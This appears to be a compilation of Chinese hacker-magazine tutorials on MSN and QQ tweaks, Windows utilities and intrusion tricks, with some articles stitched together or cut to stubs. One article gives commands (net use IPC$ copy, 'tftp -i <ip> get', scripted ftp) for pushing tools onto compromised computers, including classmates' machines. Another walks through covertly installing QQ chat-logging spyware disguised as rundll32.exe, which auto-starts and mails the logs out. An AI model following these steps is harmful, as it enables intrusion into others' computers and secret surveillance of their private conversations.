

把其中的代码 `7409` 改为 `EB09`（其他代码不用改），接下来再搜索 `84C0740E8B4E`，找到后把其中的代码 `740E` 改为 `EB0E`（其他代码不用改），保存修改结果，关闭 WinHex 退出。运行 MSN Messenger 试试，你会发现里面的广告不见了！

如果你使用的是 MSN Messenger 6.1 或 MSN Messenger 6.0，可以用 WinHex 打开 msnmsgr.exe，然后搜索以下代码：`895DFC74136A`，找到后把其中的代码 `7413` 改为 `EB13`（其他代码不用改），接下来再搜索 `84C0740A8B4E`，找到后把其中的代码 `740A` 改为 `EB0A`（其他代码不用改），最后保存修改结果并退出 WinHex 即可。

```text
85C97409E8D4
84C0740E8B4E
895DFC74136A
84C0740A8B4E
```

### 2. 同时启动多个 MSN Messenger 账号

如同拥有多个 QQ 号码一样，很多人都拥有多个 MSN Messenger 账号，但是 MSN Messenger 只允许每次使用一个账号登录。利用 WinHex 可以突破这个限制，同时启动多个 MSN Messenger 账号与他人交流！

具体方法：用 WinHex 打开 MSN Messenger 的主文件 msnmsgr.exe，点击“搜索”菜单下的“查找16进制数值”，在“下列16进制数值将被搜索”一栏中输入：`0000000F859C0000006A`，找到后把其中的代码 `0F85` 改为 `0F86`（其他代码不改），保存并退出。



现在，你就可以同时启动多个 MSN Messenger 账号登录聊天了。本技巧对 MSN Messenger 6.0～6.2 都有效。最后提醒大家，在用 WinHex 修改时不要同时运行目标软件，否则无法保存修改结果。

（本文提到的软件 WinHex，光盘有收录）



phoenix7

以前我把自己的电脑做成了 WEB 服务器，只用一个很小的软件即可实现，并且是“即插即用”的。该软件监听 80 端口，是一款袖珍型服务器。只要把程序放到要上传文件的目录并运行即可。

还可用 Perl 写 echo.pl；为了方便使用，文中也用 VB 写了实现同样功能的转换工具。

若干 2004 年 5 月的杂志文章让我想到：菜鸟电脑常见问题之一是文件上传。本文整理了通过已有权限（如 shell）进行上传的方法，帮助新手理解思路。

### 一、同一子网段

就是和你的子网掩码和网关一致的电脑。这种用 IPC 和 TFTP 上传文件的可能性比较大。这里先说基本命令。

```text
net use \\211.87.211.87\ipc$ "密码" /user:"用户名"
copy pslist.exe \\211.87.211.87\c$\winnt\system32
```

即可把 pslist.exe 上传到对方 `c:\winnt\system32`。这种方法如今已较少使用，但作为技术仍需掌握。

另一种较流行的是 tftp。在同一子网里更方便，只要目标机提供 tftp 服务即可下载文件。



具体命令：`tftp -i yourip get yourfile`，例如：`tftp -i 211.87.211.87 get process.exe`。



### 二、非同一子网段

这种情况下可用 FTP、HTTP 下载等方式。若无可用服务器主机，常需要借助小工具或脚本进行间接上传/下载。





点击打开文件，选择要转换的 hget.vbs，点击转换保存，保存后打开。



转换完毕后全选、复制，到 cmd 中右键粘贴继续执行（文中后续提到图6、图7）。




接着就可以用该脚本下载文件了。从服务器的日志里能够看到下载的记录，如图8。


另外一种方法就是 FTP。这里我找了一款很小的 FTP 服务器软件，也是“即插即用”的，如图9。

### 三、有关防火墙的设置

我们在入侵别人的时候要学会保护自己。在肉机从自己的电脑上下东西的时候，也不能把防火墙关掉，这样比较危险。按照网里用的大部分是天网，我以此为例说明如何配置防火墙。天网默认有个“禁止所有人连接低端端口”，这里对 FTP 的 21 端口和 HTTP 的 80 端口进行了限制，需要修改一下，如图14、15、16。这样任何 IP 访问 21、80 端口时，防火墙都会放行。防火墙的规则设置还有其他一些内容，限于篇幅不作介绍。


进行基本的设置就可以用了，这样我就把我的电脑配置成 FTP 服务器了。无敌的文章里抓的图显示了 FTP 下载不成功，我在试验的时候也出现了同样的问题。我写了 ftp.txt，如图10。然后用我写的转换工具对其进行转换，如图11。

```text
ftp -s:ftp.txt
```

然后用同样的方法在对方的电脑里生成 ftp.txt，再用命令 `ftp -s:ftp.txt`，却显示用户密码不正确。我在本机上试验成功，但在肉机上怎么也不行。于是我又用了另外一种形式，如图12。然后用命令：

```text
ftp -s:ftp.txt 211.87.211.87
```

居然成功了！如图13。


最后，我想说一点自己的体会。我们在入侵同学电脑的时候，千万不要搞破坏，大家抬头不见低头见，有时候你入侵的同学说不定还跟你挺熟，所以万事切不可做绝。我们研究的是技术，但要有“职业道德”。

（本文涉及到的工具：http.exe、FTPsever.exe、转换工具，光盘有收录）


# 小鸡快跑


我们使用电脑久了，发现系统盘中的 Windows 目录一直没有研究过，因为我们都知道这个目录是存放一些系统文件的地方。但是，其实 Windows 目录里面还是有一些不错的东西，现在就让我们来看看（下面均以 C 盘作为系统盘）。

### 一、Bootdisk.bat

Windows 在系统崩溃后无法进入 GUI（图形界面）时，需要启动盘来引导系统。如果你在安装系统时忘了或者故意不创建启动盘，那可就糟糕了。不过不用着急，只要使用保存在 Windows\Command 目录下的 bootdisk 文件就可以解决。

在 MS-DOS 环境下 cd 到 `C:\Windows\Command` 目录下，键入 `Bootdisk`，按回车，屏幕上出现了要求选择软驱的提示，选择 1 或 2 后，即可以按照提示插入软盘并开始拷贝文件，制作启动盘。

### 二、Pdos.bat

如果没有 UC-DOS 的中文平台，在 DOS 下运行中文程序或是使用汉字，就显得不方便。在 `Windows\Command\` 目录下的 `Pdos95.bat` 文件功能是在 MS-DOS 窗口中显示与输入汉字，运行方法为：在 DOS 的提示符下键入 `Pdos95`，再按回车，一段加载程序后，即进入中文操作平台。我们可以用“Ctrl+Shift”切换输入法，“Ctrl+空格”切换中英文，“Shift+空格”切换半角。要想退出中文平台，键入命令 `quit` 即可。

### 三、SFC（System File Checker）

尽管谨慎又谨慎，可有时还是难免一不小心误删了系统文件，赶紧去“回收站”看看，发现它早已被清空。一般有些网友会下意识地想到是否要重装系统？其实不用太着急，只要使用 `Windows\System\` 目录下的“系统文件检查器”就可以解决了，运行它的方法为：

点击“开始”菜单，在“运行”的文本框中输入 `sfc`，单击确定，将弹出一个“系统文件检查器”窗口。它含有两个单选框，一个用来检查改动过的系统文件完整性；它可以扫描出几乎所有被删除或被非法修改过的系统文件，如果发现文件已损坏，它会提示你恢复原始文件。单击“设置”，可配置系统文件检查器去通知你所更改和删除的文件。在还原原始文件之前，“系统文件检查器”可以备份已有的文件，也可以根据文件夹和文件扩展名自定义搜索条件，还有一些高级功能可以设定。另一个表示从安装软盘提取一个文件，在文本框中输入要提取文件的文件名，然后按照提示操作，相信就不难了。

### 四、Sysedit

配置 Win9x 启动加载、优化内存等，常要修改 `config.sys`、`autoexec.bat`、`win.ini`、`system.ini`、`protocol.ini` 等系统文件。每次修改前都要先让隐藏起来的它们现身，用记事本打开，一一修改后，为了安全起见，再把它们的属性改回。其实用 `sysedit` 就省事多了，它能够把这些系统文件整合在一起。要修改哪个只需激活它的窗口就行。该文件位于 `Windows\System\` 目录下，运行方法很简单：在“开始→运行”中键入 `sysedit` 即可。

### 五、Sysbckup 实现

备份注册表时系统总告诉我今天已经备份，可它备份到哪里去了呢？就在 `Sysbckup` 文件夹里。它包含了因版本冲突、版本升级而备份的文件及其他自动备份的文件。我想其中最有用的大概要数 5 个注册表备份压缩包文件了，它们的名字叫 `rb001`、`rb002`～`rb005`。

当注册表发生错误想用备份替换时，可以有两种方法：一种是在 Windows 环境下直接用解压工具解压，解压好后有四个文件：`system.dat`、`system.ini`、`user.dat`、`win.ini`。唉，怎么不是注册表文件？不用急嘛，Windows 下的注册表信息就存放在 Win9x 系统目录下的 `system.dat` 和 `user.dat` 文件中，只需进行替换生效即可；第二种方法是在 DOS 环境下输入命令 `scanreg`，用 Tab 键选择“START”，进入后选择“View Backups”，即查看备份文件，根据日期选择最新的备份，选择“RESTORE”，这样注册表就可以恢复正常了。

其实，Windows 目录中还有好多别的好东西，有空就琢磨一下吧！


在 QQ2004 推出的时候，就有一个“网络硬盘”的功能，之前的《X档案》也介绍过如何让它成为我们的兵器库。但现在如果有太多 QQ 用户给自己开共享的话，腾讯会自动只给我们留下五个 QQ 用户的共享，而且不允许非高级用户再给我们开共享给自己。过程虽然有点麻烦，但用起来比以前的方法更方便。

我们先去腾讯网站免费申请一个 QQ（用你自己多余的 QQ 也可以），成功后，如图1。

登录 QQ 最新客户端 QQ2004II，登录后，在“群/校友录”空白的地方点右键，选择“创建校友录”，在弹出的网页上点“个人名片”填完整资料，如图2。


图1

图2

# 小鸡快跑

再随便搜索一个学校，如图3，在出来的结果点击进去，在网页最下面新建一个班级，班级的名字也可以随便填（反正以后很方便都能改的），如图4。


成功后，QQ会收到一条成功建立群的系统消息，如图5。


用这个QQ把你常用的那个QQ加为好友，再将常用的那个QQ加入到申请的群内，并把常用那个QQ设为管理员，如图6。这一步很重要，因为把它设为管理员后，你就可以用常用的那个QQ对这个群进行“主人”般的设置，还可以像我一样，把群改名为“常用黑客工具”，方便以后自己辨别上传软件。好了，兵器库建立完毕。（菜鸟：什么？这叫兵器库，我在什么地方存软件？）可能现在还有些朋友不知道在最新的QQ版本中，QQ群中有一个共享的文件夹，同“网络硬盘”一样有16M空间的，如图7。


但凡是群内的用户都可以对它进行任何操作，包括删除文件。所以我们最后一步就是要把群设置为“不允许任何人加入该群”，如图8。


如果你的朋友也使用这个兵器库，可以用你常用的那个QQ把他也加入这个群里（这就是前面为什么要把常用的这个QQ设为管理员的原因了）。第一次写文章，写得不好还请见谅，如果有不明白的可以上X档案论坛讨论。

# 小鸡快跑

## 轻松查看他人QQ聊天内容

你想知道钟意的MM在用QQ聊些什么吗？你想知道她除了与你聊天外还与其他人聊什么吗？你想知道您的孩子在网上的活动吗？用“QQ记录终结者”吧！它是一款记录他人聊天记录的软件，可监视选定的QQ号码，并可以设置为远程运行和本地监视两种模式，具有邮件发送功能。

现在点击“生成文件”按钮，就会生成客户端程序——rundll32.exe，如图3。

### 一、邮件设置

运行“QQ记录终结者”，点击“邮件设置”标签页显示如图1所示。


在“您用的邮箱栏”填写发信服务器；在邮箱用户名栏输入发信邮箱用户名；在邮箱密码栏输入邮箱密码。现在邮件发送大都需要服务器端验证，因此输入用户名和密码后才能正常发送邮件。“发送邮箱”与“接收邮箱”按需填写即可，“邮件标题”可使用默认值。

最后单击“确定”按钮保存设置，否则您的设置可能前功尽弃。

### 二、程序设置

现在进入“程序设置”（图2）。这里基本不用设置，比如“要监视的QQ号码”可为空以监视本地所有聊天记录；输入则只监视指定号码。对于“自定义EXE文件”和“自定义DLL文件”建议设置以增强隐蔽性，并勾选“启用邮件发送功能”和“下次开机自动运行程序”等选项。


### 三、运行客户端程序

完成上面的操作后，将会依据您选择的目录生成rundll32.exe文件，将该文件拷贝到任意电脑中，然后双击它即可运行。现在就等待收QQ聊天记录吧！

### 四、查看结果

运行QQ，在当前目录下将生成一个名为Messages的目录来保存聊天记录文件，打开记录文件，其接收消息如下：

> 与云儿(41******20)在聊天模式下  
> 时间：2004-12-2 12:41:04  
> 云儿 12:40:56  
> 你好呀  
> 幸福 12:41:37  
> 您好，我现在有事不在，一会儿再和您联系。  
> 云儿 12:41:54  
> 其实我也是测试软件

> 小提示：当此记录文件满9KB以后，将自动把文件发送至您设定的邮箱中，并将文件记录转存到bak.dll文件中。

如果您想卸载客户端程序，只需在程序运行期间按关闭程序快捷键“ALT+A”（根据自己的设置，可能不同）即可结束程序，然后删除“C:\recorder\”中的所有文件即可。如果DLL文件暂时删除不了，可以在下次程序运行的时候删除。

比较遗憾的是“QQ记录终结者”是共享软件，未注册版生成的客户端只能使用5天，最新版本为4.0，大小423KB。

（本文涉及到的程序QQ记录终结者4.0，光盘有收录）

## QQ之IP窥视高手 IpSniper

xixi

各位网友们想必都想详细地了解和自己聊天的网友究竟是哪里人？当然了，大家可以进管理员带了IP库的经过修改后的QQ来进行日常聊天。今天我在这里说的就是给那些爱玩另类的朋友们准备的——QQ之IP窥视高手 IpSniper。其基本功能如下：

- 实时地监测出包括好友、陌生人、腾讯服务系统及腾讯广告服务器代理的IP地址及端口号；
- 直接在QQ的接收/发送窗口上显示IP以及地理位置信息；
- 可同时监测多个登录的QQ号码；
- 自定义QQ客户端默认端口号；
- IP助手功能，可方便查看主机IP配置信息、TCP/UDP连接；
- 新增Flash Online功能等。

### 一、安装、卸载篇

#### 1. 下载软件：

因为QQ狙击手的更新升级速度比较快，如果你是在其他网站或者是光盘杂志上获得该软件，你可以到作者网站 http://www.ipsniper.com 下载最新版本。

#### 2. 安装软件：

软件下载后是一个安装执行文件，你只要运行该安装程序，一步步安装软件。安装程序会在你的桌面上生成“QQ狙击手”的快捷方式，双击即可启动软件，如图1。


#### 3. 卸载软件：

从Windows的“开始→设置→添加/删除程序”中选择“QQ狙击手”即可卸载软件，也可以从开始菜单的QQ狙击手来删除软件。

### 二、使用方法篇

#### 1. 启动软件

软件安装完成后会在桌面生成“QQ狙击手”快捷方式，双击即可启动。第一次运行请点击“设置”按钮，设置好各个参数，如图2。


然后点击“启动QQ”按钮。程序运行后的主窗口如图3所示。


窗口上半部分是与你通讯的好友或陌生人的IP地址信息，下半部分是实时更新的连接数据。只要你的QQ与外界通讯，这部分就会实时显示出来。

#### 2. 运行QQ程序

你可以先启动QQ，再启动QQ狙击手；也可以通过QQ狙击手自动启动QQ，或者分别单独运行。只要QQ程序一运行，QQ狙击手即可开始工作，如图4。


### 三、常见问题解答

- **Q：** 有的QQ地理位置显示不出来，或只显示到省份，为什么？  
  **A：** 地理位置库多数可到城市级，少部分只能到省级，个别IP可能暂无对应数据，可反馈给作者在后续版本补充。
- **Q：** 我用的是v2.4版，显示出现乱码怎么办？  
  **A：** 可尝试重新安装QQ狙击手，可能是数据文件损坏。
- **Q：** 注册后修改QQ默认端口号有什么作用？  
  **A：** 可为被屏蔽4000端口的网络环境提供连接可能；防止针对固定端口的攻击；也可用于个性化端口设置。

# 小鸡快跑

## QQ2005技巧大管箧

腾讯公司前段时间传出的新版QQ2005终于在春节前来到了大家面前，不过，这仅仅是一个提前发布的贺岁版，带给大家一些新的特性，陪着全国的QQ用户一起过大年。所以，这个版本也被称为新春贺岁版。下面我给大家介绍一下QQ2005的一些技巧。

其实QQ虽然没有这个功能，但它的“同门师兄”TM却可以实现此功能。具体方法如下：点击“菜单→切换到TM”，在好友中找到对方，右击，选择“将自己从对方联系人名单中删除”，点击“是”按钮后即可完成删除。在TM还可以互相设置密友，这样的话，就可以看到隐身的好友了，但是在QQ里面需要会员级别的才行。

### 一、菜鸟也来改QQ性别

用UltraEdit、eXeScope等工具修改。这里示范的是用eXeScope改，因为比较直观。我们安装完QQ，用eXeScope打开QQ目录下的QQRes.dll，然后选择“资源→对话框→1439→ComboBox”之后把“下拉列表”改成“下拉”然后退出，点击“保存更新”就可以了，如图1和图2。


之后重新登录QQ，就可以在QQ的“个人设置”里随意填写性别了。但是服务器只能接受2个字符或是1个汉字。接下来你想姓什么就可以姓什么了。

上面只是介绍了一些原理，如果不是有菜鸟觉得有些麻烦或者手头没有eXeScope工具的话，我已经把我QQ目录里面的qqres.dll放在杂志光盘里了，大家只要把qqres.dll复制到你QQ目录里面，覆盖一下就可以了。最后登录QQ，就可以随便改了。

### 二、将自己从对方的好友中删除

很多即时通讯软件都可以将自己从对方的好友名单删除，而QQ一直没有这个功能，要想删除，只能将对方拉黑名单。

### 三、去掉QQ2005音乐条的方法

找到你QQ所在目录\qq\NewSkins\QQ2005\VBScript.vbs第10行。

```vb
Sub Window_OnInit()
  Window.GetScriptVersion "1.0"
  UserStatus = "(离线)"
  Path = "NewSkins\\2005新春版\\"
  ...
  ShowStatus = 1
  UserNum = "0"
  petCloseBtn.visible = false
  If 1 = ShowStatus Then
    UserNum = UserNum + UserStatus
  End If
  strQQMailTip = ""
End Sub
```

在后面加上：

```vb
MusicPlayer.height = 0
MusicPlayer.width = 0
MusicPlayer.blinside = FALSE
```

就可以去掉烦人讨厌的音乐条。

### 四、免费获得QQ秀合影

在QQ聊天室，遇到一位投机的Q友，想约她去照张相，留个纪念，可惜囊中羞涩，连一个QQ币也没有。

怎么办？放弃？多遗憾。其实腾讯公司善解人意，照相馆专门为没Q币的朋友设计了“免费的午餐”，现在就给大家介绍一种只用浏览器就能拍照的方法。首先打开QQ照相馆 http://game.qq.com/camera/index.shtml ，在“发起合影”处填入你想合影的对象，点击发起。瞧！什么都有了吧？你就疯狂地选场景吧（都是免费的！）搞完这些准备以后，右面的右边会出现照片预览！免费的午餐就是它！还等什么？还不赶快用QQ截图把它截下来？

> **提示：** 实际意义上的QQ合影已经完成了，但是细心的朋友会发现照片上的日期和QQ号是假的。如果你喜欢完美就用PHOTOSHOP处理一下，不懂的也没办法了，凡事都没有完美无缺嘛。另外，照片一定要用截图截出来的，直接复制是看不到的！

### 五、禁止QQ登录

因为我们有些时候不想让别人在自己的机器上登录QQ，但是自己用的时候却能招之即来。我教大家一种小方法，绝对可行！右击QQ安装目录，选择右键菜单中“属性”，勾选“QQ属性”窗口中的“只读”选项，再点击“确定”按钮，从弹出窗口中选中“将更改应用于该文件夹、子文件夹和文件”，如图3。然后点击“确定”后关闭“QQ属性”窗口。


重新打开QQ登录窗口，原来登录过的QQ号码都将看不到了，输入QQ号码及ID，点击登录后，会发现QQ被锁定在“正在登录”窗口而无法登录。其实具体的原理就是QQ运行时，需要加载安装目录下的UinList.dat文件（该文件存储着用户的账户信息），登录过程中一些信息还要写入安装目录下的相关文件中，如果QQ登录时不能写入信息，就会拒绝登录，这样达到禁止QQ登录的目的。

> **提示：** 需要登录QQ时，将QQ安装目录的“只读”属性去掉即可。

## 利用QQ邮箱再捉肉鸡

KRlively（黑色军团）

说实话QQ真是个好东西，可以用来免费上网、用来存储文件，还可以用来找肉鸡……（正文）


原来这次我们来做个简单的FLASH木马吧……（正文续）

MX新建FLASH文件第一个空白帧……GET URL……把地址替换成自己的就好……（正文）


但要注意，因为QQ邮箱不是用的IE内核……最后发布成功后……（正文）

呵呵，大家跃跃欲试吧……（结尾说明）

## 精彩从此开始——收费QQ头像免费用

王伟

从QQ2004 Beta3版开始，QQ新增了自定义头像功能……（正文）

